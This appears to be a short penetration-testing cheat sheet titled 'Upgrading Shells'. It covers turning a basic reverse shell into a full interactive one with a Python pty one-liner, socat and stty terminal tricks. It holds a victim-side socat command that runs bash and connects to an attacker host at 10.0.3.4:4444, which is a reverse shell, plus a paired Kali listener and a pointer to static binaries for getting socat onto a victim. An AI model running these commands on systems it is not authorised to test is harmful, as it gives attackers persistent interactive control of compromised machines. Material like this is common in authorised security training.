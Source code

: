 ```yaml
---
description: >-
  Have a reverse shell without job control? Check these out. If possible, Socat
  will yield the best results for job control and tab completion
---
```


# Upgrading Shells

### Importing shell w/ Python

```python
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

### Socat

{% hint style="info" %}
Victim doesn't have socat? No problem!&#x20;

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)
{% endhint %}

```bash
# On Kali
socat file:`tty`,raw,echo=0 tcp-listen:4444
# On Victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### Using Super Magical Powers

```bash
# On your client
# Ctrl-Z to Background your session

$ stty raw -echo
$ fg

# It should now look super weird, DO NOT PRESS ANY KEYS BEFORE THE NEXT STEP

$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```



